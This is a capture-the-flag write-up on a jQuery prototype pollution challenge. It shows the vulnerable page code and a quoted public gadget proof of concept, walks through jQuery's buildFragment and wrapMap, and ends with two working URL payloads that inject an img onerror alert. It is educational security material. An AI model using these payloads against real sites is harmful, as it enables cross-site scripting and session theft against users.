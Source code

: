 ```yaml
---
layout: post
title:  "alert 1337 - jquery prototype pollution"
tags:  [xss, prototype pollution]

---
```


challenge here 
https://msrkp.github.io/

code
```
<script src="https://code.jquery.com/jquery-1.12.4.js"></script>
<script>
	var HoF = {0:"@st98_",1: "@SecurityMB",3:"@0xParrot",4:"@pgt_r2ursystem",5:"You ?"};
	
	function escapeHTML(input){
		return input.replace(/</g,'&lt;').replace(/>/g,'&gt;')
	}
	var params = new URLSearchParams(window.location.search);
	var name = params.get('name');
	var paramsJson = $.extend(true, HoF, JSON.parse(name));
	$.each(paramsJson,function(key,value){
		$(`<li id='name'>${escapeHTML(value)}</li>`).appendTo('#HoF')
	});
</script>
```

The code is simple. `$.extend` is used. So there is prototype pollution. We need to use it.

First, I thought the challenge is to use pp to bypass `escapeHTML`. So I spend hours trying to figure out how do pp the function. But no luck. I even thought that I can use `}` to pair with the `${`.

After some rest. I checked this git. `https://github.com/BlackFan/client-side-prototype-pollution`

Here we can find many poc about pp. Since the code here is jQuery, I'll try to figure out how the payloads works.

I choose this one. `https://github.com/BlackFan/client-side-prototype-pollution/blob/master/gadgets/jquery.md`

```
<script src=https://code.jquery.com/jquery-3.5.1.js></script>
<script> 
  Object.prototype.url = ['data:,alert(1)//'];   
  Object.prototype.dataType = 'script';
</script>      
<script>
  $.get('https://google.com/'); 
  $.post('https://google.com/'); 
</script>
```
After debugging it, I know that we need to pp jquery functions. So my thoughts were wrong.
So I try to debug again. Line by line. Try to find out what to pp.

in function `buildFragment`,
```
} else {
				tmp = tmp || safe.appendChild( context.createElement( "div" ) );

				// Deserialize a standard representation
				tag = ( rtagName.exec( elem ) || [ "", "" ] )[ 1 ].toLowerCase();
				wrap = wrapMap[ tag ] || wrapMap._default;

				tmp.innerHTML = wrap[ 1 ] + jQuery.htmlPrefilter( elem ) + wrap[ 2 ];
```

We can pp wrapMap. So our evil code can be injected into tmp.
`tag` is `li`, `li` not in `wrapMap`. So after our pp, `wrapMap['li']` is what we control.
Then we can control `wrap[1]`. Then `tmp.innerHTML`. In the end, we get the alert.
```https://msrkp.github.io/?name={ %22__proto__%22:{ %22li%22:{ %221%22:%22%3Cimg%20src%20onerror=alert(1337)%3E%22}},%22length%22:1}```
And this one.
```https://msrkp.github.io/?name={ %22__proto__%22:{ %22li%22:{ %222%22:%22%3Cimg%20src%20onerror=alert(1337)%3E%22}},%22length%22:1}```
strip the space.


